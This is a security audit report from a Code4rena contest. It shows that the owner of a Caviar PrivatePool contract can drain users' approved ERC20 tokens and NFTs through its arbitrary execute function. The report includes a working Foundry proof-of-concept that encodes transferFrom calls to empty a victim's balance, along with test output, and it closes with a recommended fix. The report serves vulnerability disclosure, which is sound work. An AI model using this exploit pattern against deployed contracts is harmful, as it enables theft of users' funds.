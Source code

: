 ## Tags

- bug
- 3 (High Risk)
- high quality report
- primary issue
- selected for report
- sponsor confirmed
- H-02

# [PrivatePool owner can steal all ERC20 and NFT from user via arbitrary execution](https://github.com/code-423n4/2023-04-caviar-findings/issues/184) 

# Lines of code

https://github.com/code-423n4/2023-04-caviar/blob/cd8a92667bcb6657f70657183769c244d04c015c/src/PrivatePool.sol#L459


# Vulnerability details

## Impact

PrivatePool owner can steal all ERC20 and NFT from user via arbitrary execution.

## Proof of Concept

In the current implementation of the PrivatePool.sol, the function execute is meant to claim airdrop, however, we cannot assume the owner is trusted because anyone can permissionlessly create private pool.

```solidity
/// @notice Executes a transaction from the pool account to a target contract. The caller must be the owner of the
/// pool. This allows for use cases such as claiming airdrops.
/// @param target The address of the target contract.
/// @param data The data to send to the target contract.
/// @return returnData The return data of the transaction.
function execute(address target, bytes memory data) public payable onlyOwner returns (bytes memory) {
	// call the target with the value and data
	(bool success, bytes memory returnData) = target.call{value: msg.value}(data);

	// if the call succeeded return the return data
	if (success) return returnData;

	// if we got an error bubble up the error message
	if (returnData.length > 0) {
		// solhint-disable-next-line no-inline-assembly
		assembly {
			let returnData_size := mload(returnData)
			revert(add(32, returnData), returnData_size)
		}
	} else {
		revert();
	}
}
```

the owner of private pool can easily steal all ERC20 token and NFT from the user's wallet after user give approval to the PrivatePool contract and the user has to give the approval to the pool to let the PrivatePool pull ERC20 token and NFT from the user when user buy or sell or change from EthRouter or directly calling PrivatePool,

the POC below shows, the owner of the PrivatePool can carefully crafting payload to steal fund via arbitrary execution.

after user's apporval, the target can be a ERC20 token address or a NFT address, the call data can be the payload of transferFrom or function.

Please add the code to Execute.t.sol so we can create a mock token

```solidity
contract MyToken is ERC20 {
    constructor() ERC20("MyToken", "MTK", 18) {}

    function mint(address to, uint256 amount) public {
        _mint(to, amount);
    }
}
```

Please add the POC below to Execute.t.sol

```solidity
  function testStealFundArbitrary_POC() public {
        MyToken token = new MyToken();

        address victim = vm.addr(1040341830);
        address hacker = vm.addr(14141231201);

        token.mint(victim, 100000 ether);

        vm.prank(victim);
        token.approve(address(privatePool), type(uint256).max);

        console.log(
            "token balance of victim before hack",
            token.balanceOf(victim)
        );

        address target = address(token);
        bytes memory data = abi.encodeWithSelector(
            ERC20.transferFrom.selector,
            victim,
            hacker,
            token.balanceOf(victim)
        );

        privatePool.execute(target, data);

        console.log(
            "token balance of victim  after hack",
            token.balanceOf(victim)
        );
    }
```

We run the POC, the output is

```solidity
PS D:\2023Security\2023-04-caviar> forge test -vv --match "testStealFundArbitrary_POC"
[⠒] Compiling...
[⠑] Compiling 1 files with 0.8.19
[⠃] Solc 0.8.19 finished in 8.09s
Compiler run successful

Running 1 test for test/PrivatePool/Execute.t.sol:ExecuteTest
[PASS] testStealFundArbitrary_POC() (gas: 753699)
Logs:
  token balance of victim before hack 100000000000000000000000
  token balance of victim  after hack 0
```

As we can see, the victim's ERC20 token are stolen.

## Tools Used

Manual Review

## Recommended Mitigation Steps

We recommend the protocol not let the private pool owner perform arbtirary execution, the private pool can use the flashloan to claim the airdrop himself.

